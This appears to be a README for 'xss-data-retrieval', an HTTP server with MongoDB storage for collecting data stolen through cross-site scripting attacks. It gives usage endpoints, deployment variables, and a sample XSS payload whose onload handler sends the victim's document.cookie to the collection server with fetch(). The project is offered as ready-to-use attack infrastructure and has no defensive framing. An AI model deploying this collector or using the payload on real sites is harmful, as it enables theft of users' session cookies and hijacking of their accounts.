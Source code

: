 # xss-data-retrieval

Ready to go HTTP Server with MongoDB communication for storing the data obtained in your XSS attacks.

## Usage

`GET /?data=<data>`

If the data retrieved is the size of the Internet consider the following request

`POST / {'application-type': 'text/plain'}`

## Sample XSS Payload

``<body id=x tabindex=1 onload=fetch(`host:port/?data=${document.cookie}`)></body>``

### Deploy

Define the following environment variables:

|Variable|Description|
|--------|-----------|
|PORT|Port which the server will be listening requests|
|MONGODB_CONNECTION_URL|Connection URL of the Mongo database that will store the data|